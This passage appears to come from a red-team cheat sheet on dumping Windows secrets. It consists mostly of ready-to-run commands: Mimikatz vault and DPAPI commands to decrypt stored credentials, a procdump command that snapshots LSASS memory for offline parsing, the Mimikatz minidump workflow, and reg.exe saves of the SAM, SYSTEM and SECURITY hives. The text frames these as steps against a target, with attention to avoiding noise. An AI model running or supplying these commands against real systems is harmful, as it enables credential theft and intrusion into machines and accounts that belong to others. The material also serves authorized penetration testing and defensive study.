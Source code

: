 ```
# Dump windows secrets, such as stored creds for scheduled tasks (elevate first)
vault::list
vault::cred /patch

# Dump windows secrets DPAPI method (less noise and no specific rights reqd yay)
## More here: https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials
## First, get GUID of master key for specific secret
dpapi::cred /in:C:\Users\appadmin\AppData\local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D

## EITHER Grab dpapi keys from LSASS
sekurlsa::dpapi

## OR Grab and cache a specific key
dpapi::masterkey /rpc /in:C:\Users\appadmin\AppData\Roaming\Microsoft\Protect\S-1-5-21-3965405831-1015596948-2589850225-1118\a89b97d2-b520-462d-a924-d57df68c543b

## Mimikatz will cache the master key (check with dpapi::cache)
## Then run the initial dpapi::cred command again to get the juice! 
```

### Dumping secrets without Mimikatz

We can also parse system secrets without using Mimikatz on the target system directly.

#### Dumping LSASS

The preferred way to run Mimikatz is to do it locally with a dumped copy of LSASS memory from the target. [Dumpert](https://github.com/outflanknl/Dumpert), [Procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump), or other (custom) tooling can be used to dump LSASS memory.

```
# Dump LSASS memory through a process snapshot (-r), avoiding interacting with it directly
.\procdump.exe -r -ma lsass.exe lsass.dmp 
```

After downloading the memory dump file on our attacking system, we can run Mimikatz and switch to ‘Minidump’ mode to parse the file as follows.

```
sekurlsa::minidump lsass.dmp 
```

After this, we can run Mimikatz commands as usual.

#### Dumping secrets from the registry

We can dump secrets from the registry and parse the files “offline” to get a list of system secrets. 🚩

On the target, we run the following:

```
reg.exe save hklm\sam c:\users\public\downloads\sam.save
reg.exe save hklm\system c:\users\public\downloads\system.save
reg.exe save hklm\security c:\users\public\downloads\security.save 
```

